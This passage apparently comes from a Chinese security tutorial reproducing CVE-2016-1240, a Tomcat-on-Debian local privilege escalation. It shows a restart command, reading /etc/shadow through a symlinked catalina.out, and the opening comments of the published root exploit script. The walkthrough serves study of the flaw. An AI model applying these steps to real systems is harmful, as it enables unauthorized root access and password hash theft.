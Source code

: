 ```
service tomcat7 restart 
```

重启成功之后我们再次使用`低权限用户`读取 cataline.out 的内容：使用命令

```
head /var/log/tomcat6/catalina.out 
```

使用 head 命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。

![image](img/4b3ecb3f2dc21323b4fb71dfe64c95a1.png)

**原理:**当 Tomcat 服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时 tomcat 的日志文件指向了`/etc/shadow 文件`; 而该文件就是我们之前创建的链接文件，而链接文件属于 Tomcat7 这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用 poc 根据 Tomcat7 漏洞进行提权

#### poc

```
#!/bin/bash
#
# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
#
# CVE-2016-1240
#
# Discovered and coded by:
#
# Dawid Golunski
# http://legalhackers.com
#
# This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
# Debian-based distros including Debian, Ubuntu etc.
# It allows attackers with a tomcat shell (e.g. obtained remotely through a 
# vulnerable java webapp, or locally via weak permissions on webapps in the 
# Tomcat webroot directories etc.) to escalate their privileges to root.
#
# Usage:
# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
#
```